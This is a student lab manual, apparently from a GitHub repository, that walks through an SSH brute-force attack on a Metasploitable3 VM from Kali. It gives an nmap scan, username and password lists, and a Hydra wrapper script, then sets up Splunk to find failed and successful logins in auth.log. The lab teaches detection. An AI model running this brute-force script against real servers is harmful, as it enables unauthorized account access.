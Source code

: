 # ICS344 Project: SSH Attack and Splunk Analysis Manual

## Phase 1: SSH Brute Force via Script Method

### 1. Environment Setup

Set up the following machines using VirtualBox:

- **Kali Linux** (Attacker)
- **Metasploitable3** (Victim)

#### Network Setup for Both:

- Adapter 1: NAT Network (for internet access)
- Adapter 2: Host-Only Adapter (to allow communication between VMs)

---

### 2. Check VM Communication

- On **Kali**, run:

```bash
ifconfig
```

![Kali Linux IP is `192.168.56.104`](screanshots/Kali_IP.png)

- On **Metasploitable3**, run:

```bash
ifconfig
```

- If the IP is not `192.168.x.x`, run:

```bash
sudo dhclient -r eth1
sudo dhclient eth1
ifconfig
```

![Metasploitable3 IP is `192.168.56.105`](screanshots/Meta_IP.png)

- Test connectivity:

```bash
ping 192.168.56.104 //in Metaspoiltable3
ping 192.168.56.105 //in Kali Linux

```

![VMs Connected](screanshots/Ping_on_Meta.png)
![VMs Connected](screanshots/Ping_on_Kali.png)

---

### 3. Discover Open Ports on the Victim

Run from Kali:

```bash
sudo nmap -sS -sV 192.168.56.105
```

![Output showing open services, including SSH port 22](screanshots/Open_Ports.png)

---

### 4. Prepare Files & Script (Without Running)

```bash
mkdir ssh-brute
cd ssh-brute
```

#### Create `users.txt`

```bash
nano users.txt
```

Paste:

```
pgsql
admin
root
user
vagrant
aisha
test
```

#### Create `pass.txt`

```bash
nano pass.txt
```

Paste:

```
nginx
password
123456
toor
vagrant
aishapass
testpass
```

#### Create `script.sh`

```bash
nano script.sh
```

Paste:

```bash
#!/bin/bash

TARGET_IP="192.168.56.105"
TARGET_PORT=22
USER_LIST="users.txt"
PASSWORD_LIST="pass.txt"
OUTPUT_FILE="valid_credentials.txt"

if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
fi
```

Make it executable:

```bash
chmod +x script.sh
```

---

## Phase 2: SIEM Log Analysis (Splunk)

### 1. Install Splunk Enterprise on Kali

```bash
wget -O splunk-9.3.2.deb https://download.splunk.com/products/splunk/releases/9.3.2/linux/splunk-9.3.2-d8bb32809498-linux-2.6-amd64.deb
sudo dpkg -i splunk-9.3.2.deb
sudo apt --fix-broken install
sudo /opt/splunk/bin/splunk start --accept-license
```

Open Splunk in browser: `http://localhost:8000`

![Splunk web interface main page](screanshots/Splunk_Main_Page.png)

### 2. Install Splunk Forwarder on Metasploitable3

```bash
wget -O splunkforwarder-9.4.1.deb "https://download.splunk.com/products/universalforwarder/releases/9.4.1/linux/splunkforwarder-9.4.1-e3bdab203ac8-linux-amd64.deb"
sudo dpkg -i splunkforwarder-9.4.1.deb
sudo apt --fix-broken install
sudo /opt/splunkforwarder/bin/splunk start --accept-license
```

### 3. Enable Receiving on Port 9997 in Splunk

- Go to **Settings > Forwarding and Receiving**
- Click **Add new receiving port** → enter `9997`

![port 9997 is enabled in Splunk](screanshots/Port_9997.png)

### 4. Connect Forwarder to Server

```bash
sudo /opt/splunkforwarder/bin/splunk add forward-server 192.168.56.104:9997
sudo /opt/splunkforwarder/bin/splunk restart
```

- Check the connection:

```bash
sudo /opt/splunkforwarder/bin/splunk list forward-server
```

![active forward to Splunk server IP and port](screanshots/Active.png)

### 5. Monitor SSH Log File

```bash
sudo /opt/splunkforwarder/bin/splunk add monitor /var/log/auth.log
```

![Log file successfully added to monitor list](screanshots/Log.png)

---

### 6. Run the Attack

Back on Kali:

```bash
cd ssh-brute
./script.sh
```

![Hydra results](screanshots/Atack.png)

---

### 7. Search Logs in Splunk

- Open: `http://localhost:8000`
- Go to **Search & Reporting** > **Data Summary > Hosts**
- Select: `metasploitable3`
- Go to **Sources** → `/var/log/auth.log`

#### Useful Searches:

- Failed logins:

```spl
index=* source="/var/log/auth.log" "Failed password"
```

![Logs showing failed login attempts](screanshots/Failed.png)

- Successful logins:

```spl
index=* source="/var/log/auth.log" "Accepted password"
```

![Logs showing successful login (vagrant)](screanshots/Succesed.png)

---

## Log Analysis (Detailed Explanation)

### Service: SSH (`sshd`)

- SSH was the main target of the brute-force attack.
- Hydra tested combinations from `users.txt` and `pass.txt`.

### Observed Log Behavior:

- Over 180 total SSH log entries collected during the test window.
- Consistent log pattern:
  - Failed: `Failed password for invalid user ___`
  - Success: `Accepted password for vagrant from 192.168.56.104 port 41862 ssh2`

### Timeline Analysis:

- The logs show a sequence of incorrect login attempts.
- At the end of the sequence, Splunk captured a successful login.
- The log clearly records the attack’s source IP and destination host.

#

---
